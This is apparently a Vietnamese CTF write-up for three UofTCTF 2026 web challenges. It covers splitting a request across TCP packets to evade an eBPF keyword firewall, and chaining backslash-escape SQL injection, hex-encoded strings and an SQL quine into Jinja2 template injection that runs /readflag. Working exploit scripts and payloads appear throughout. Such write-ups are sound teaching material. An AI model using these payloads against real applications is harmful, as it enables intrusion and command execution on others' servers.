



# UofTCTF 2026 Web

## Danh sách bài
- [Web - Firewall](#web---firewall)
- [Web - No Quotes](#web---no-quotes)
- [Web - No Quotes-2](#web---no-quotes-2)

## Web - Firewall

### Challenge

Lấy flag tại `35.227.38.232:5000`, endpoint `/flag.html`.

### Phân tích

Firewall được triển khai dưới dạng một chương trình eBPF (`firewall.c`) được gắn vào cả hai hook TC (Traffic Control) ingress và egress.

``` c
#define KW_LEN 4
static const char blocked_kw[KW_LEN] = "flag";
static const char blocked_char = '%';

__u32 __always_inline has_blocked_kw(struct __sk_buff *skb, __u32 off, __u32 len)
{
    // Cannot match when length is shorter than KW_LEN
    if (len < KW_LEN) {
        return 0;
    }
    // ... pattern matching logic
}
```

Firewall eBPF lọc TCP traffic và drop nếu payload trong một packet chứa:
- keyword `"flag"` (4 byte)
- hoặc ký tự `'%'`

**Firewall kiểm tra từng packet độc lập.**

Nếu ta bẻ substring `"flag"` sao cho nó không bao giờ xuất hiện trọn vẹn trong 1 packet, firewall sẽ không match được.

Trong khi đó, TCP ở phía server vẫn reassemble stream đầy đủ → nginx vẫn đọc được request hoàn chỉnh.

### Ý tưởng khai thác

Request chuẩn có đoạn nguy hiểm:

```GET /flag.html HTTP/1.1\r\n...```

Nếu gửi nguyên khối, một packet có thể chứa `"/flag"` → bị chặn.

Ta chia làm 2 phần sao cho:
- phần 1 kết thúc ở `"GET /f"`
- phần 2 bắt đầu bằng `"lag.html ..."`

Khi đó:
- Packet 1 có `"/f"` (không có `"flag"`)
- Packet 2 có `"lag"` (không có `"flag"`)
→ Firewall không thể match `"flag"`.

Để tăng xác suất 2 lần `send()` thành 2 packet khác nhau, chèn `sleep(0.1)` giữa hai lần gửi.

### Exploit

```python
from pwn import *
from time import sleep
import re

host = "35.227.38.232"
port = 5000
path = "/flag.html"

req = (
    f"GET {path} HTTP/1.1\r\n"
    f"Host: {host}\r\n"
    "Connection: close\r\n"
    "Range: bytes=134-\r\n"
    "\r\n"
).encode("ascii")

r = remote(host, port)

# split để bẻ "/flag" -> "/f" + "lag"
r.send(req[:6])
sleep(0.1)
r.send(req[6:])

data = r.recvall(timeout=5)
text = data.decode("utf-8", errors="ignore")

m = re.search(r'(uoftctf\{[^}\r\n]+\})', text, re.IGNORECASE)
if m:
    print(m.group(1))
else:
    print("Không tìm thấy uoftctf{...}")

```

**Vì sao dùng Range: `bytes=134-?`**

Header Range yêu cầu server trả về một phần nội dung từ byte 134 trở đi.
Mục đích để nhận nhanh đoạn chứa flag (vì trong `flag.html` thì byte 134 chứa flag)

### Kết quả



## Web - No Quotes

### Challenge

Ứng dụng web dùng Flask + MySQL. Flag nằm ở `/root/flag.txt` nên ta không đọc trực tiếp được. Mục tiêu là khiến server chạy lệnh để in flag ra.

Challenge có 3 ý chính: SQL Injection, bypass WAF, và SSTI.

### Phân tích

**(1) SQLi ở `/login`**

Trong `login()`, query được ghép bằng `f-string`:
```python
SELECT id, username FROM users 
WHERE username = ('{username}') AND password = ('{password}')
```
=> nhập gì vào `username/password` thì dính thẳng vào SQL → **SQL Injection**

**(2) WAF chỉ chặn quote**
```py
blacklist = ["'", '"']
```
=> chỉ cần payload không dùng `'` và `"` là pass.

**(3) SSTI ở /home**

```py
render_template_string(open("templates/home.html").read() % session["user"])
```

`session["user"]` (`username` lấy từ DB) bị nhét vào template rồi render bằng Jinja2
=> nếu username chứa `{{ ... }}` thì Jinja2 thực thi → **SSTI/RCE**

### Ý tưởng

**Bypass WAF bằng backslash**

Dùng `\` để escape dấu `'` mà app tự thêm. Nếu `username = test\` thì query thành:
```py
... WHERE username = ('test\') AND password = ('...')
```
Trong MySQL, `\` có thể escape ký tự sau nó, nên phần đóng chuỗi bị phá cấu trúc, khiến đoạn tiếp theo bị dính vào chuỗi `/` làm lệch cú pháp như mong muốn để ta mở đường cho payload ở `password`.

**Dựng payload: UNION SELECT để inject username độc vào session**

Ta muốn query trả về 1 dòng hợp lệ dạng `(id, username)` để app login thành công.

Dùng:
```sql
) UNION SELECT 1, <ssti_payload> ...
```

**Tránh quote bằng hex (hoặc char)**

Do WAF chặn `'`/`"`, không thể viết string thường. MySQL cho phép viết string dưới dạng hex:

- `0x61` tương đương `'a'`
- vậy ta encode toàn bộ chuỗi `{{...}}` thành `0x...` để không cần quote.

Payload SSTI:
```py
{{ config.__class__.__init__.__globals__['os'].popen('/readflag').read() }}
```
Encode sang hex:
```
0x7b7b636f6e6669672e5f5f636c6173735f5f2e5f5f696e69745f5f2e5f5f676c6f62616c735f5f5b276f73275d2e706f70656e28272f72656164666c616727292e7265616428297d7d
```

Payload hoàn chỉnh:
```js
username=test\&password=) UNION SELECT 1,0x7b7b636f6e6669672e5f5f636c6173735f5f2e5f5f696e69745f5f2e5f5f676c6f62616c735f5f5b276f73275d2e706f70656e28272f72656164666c616727292e7265616428297d7d#
```

### Kết quả



Đã có cookie và redirects sang `/home` để lấy flag



## Web - No Quotes 2 

### Phân tích

**(1) SQL Injection (không dùng parameter)**
```py
query = (
  "SELECT username, password FROM users "
  f"WHERE username = ('{username}') AND password = ('{password}')"
)
```
Query ghép bằng f-string ⇒ **SQLi**

**(2) WAF “No Quotes”**
```py
blacklist = ["'", '"']
```

**(3) Strict Login Check**

Sau khi query chạy:
```py
if not username == row[0] or not password == row[1]:
    return "Invalid credentials"
```

⇒ Không chỉ cần trả về một row, mà `row[0]` và `row[1]` phải đúng y hệt input.

Đặc biệt: `row[1]` phải bằng đúng chuỗi password bạn gửi ⇒ cần SQL Quine (query tự in lại chính nó).

**(4) SSTI ở /home**
```py
return render_template_string(open("templates/home.html").read() % session["user"])
```

`session["user"]` lấy từ DB (username) rồi nhét vào template trước khi render Jinja2 ⇒ nếu username chứa `{{...}}` thì SSTI → RCE.

### Ý tưởng khai thác
- SQL “Swallow” (escape quote bằng \) để phá ranh giới username/password.
- UNION SELECT trả về row giả (username, password) do ta định nghĩa.
- SQL Quine để cột password trả về đúng chuỗi password đã gửi (pass strict check).
- Username trả về sẽ là SSTI payload để chạy /readflag.

#### **Bypass “No Quotes” trong SSTI bằng request.args**

SSTI muốn chạy `/readflag` thường cần string `'os'` và `'/readflag'`, nhưng WAF chặn quote.

Mẹo: lấy string từ query parameters thay vì viết literal.

- Khi request tới `/home?/readflag=1&os=1`
- Trong Jinja2:
    - `request.args|list` → danh sách keys: `['/readflag', 'os']`
    - `|max` → `'os'`
    - `|min` → `'/readflag'`

Payload SSTI (kèm `\` ở cuối để kích hoạt swallow):
```py
{{ config.__class__.__init__.__globals__[request.args|list|max].popen(request.args|list|min).read() }}\
```

#### **SQL “Swallow” (backslash escape)**

Ta gửi username kết thúc bằng `\` để escape dấu `'` do server thêm vào.

Query gốc có dạng:
```
... WHERE username = ('<username>') AND password = ('<password>')
```

Nếu `<username>` kết thúc bằng `\`, phần `\'` làm DB coi dấu `'` là ký tự trong chuỗi ⇒ giúp ta chèn `) UNION SELECT ...` ở `password` theo cú pháp mong muốn.

#### **Quine cho password (để pass strict check)**

Vấn đề: vì WAF cấm quote, ta phải dùng hex `string (0x...)`. Nhưng DB khi trả về thường decode hex thành ASCII ⇒ mismatch với input dạng `0x....`

Fix: bắt DB in ra hex theo dạng text `0x...` bằng:
```sql
CONCAT(0x3078, LOWER(HEX(X)))
```

- `0x3078` là `"0x"`

Quine template:
```sql
) UNION SELECT <UserHex>,
REPLACE($, 0x24, CONCAT(0x3078, LOWER(HEX($))))#
```

Trong đó `$` là placeholder (ASCII `$` = `0x24`).

Ta tạo password cuối bằng cách:

- tính `h = 0x + hex(template)`
- thay `$` bằng `h`
⇒ Khi query chạy, `REPLACE` sẽ tái tạo chính string đó ⇒ `row[1] == password_input.`


### Script:

```py
import binascii, requests, re

BASE = "https://no-quotes-2-014c815d14f51af0.chals.uoftctf.org/"

def to_hex(s: str) -> str:
    return binascii.hexlify(s.encode()).decode()

def main():
    # SSTI username (kèm \ để swallow)
    ssti = "{{ config.__class__.__init__.__globals__[request.args|list|max].popen(request.args|list|min).read() }}\\"
    u_hex = "0x" + to_hex(ssti)

    # Quine template với placeholder $
    template = f") UNION SELECT {u_hex}, REPLACE($, 0x24, CONCAT(0x3078, LOWER(HEX($))))#"
    h = "0x" + to_hex(template)

    final_password = template.replace("$", h)

    s = requests.Session()
    r = s.post(f"{BASE}/login", data={"username": ssti, "password": final_password}, allow_redirects=False)
    assert r.status_code in (302, 303)

    # Gọi /home với args để SSTI lấy 'os' và '/readflag' mà không cần quotes
    r2 = s.get(f"{BASE}/home", params=[("/readflag","1"), ("os","1")])
    print(re.search(r"uoftctf\{.*?\}", r2.text).group(0))

if __name__ == "__main__":
    main()
```

**Flag: uoftctf{d1d_y0u_wR173_4_pr0P3r_qU1n3_0r_u53_INFORMATION_SCHEMA???}**
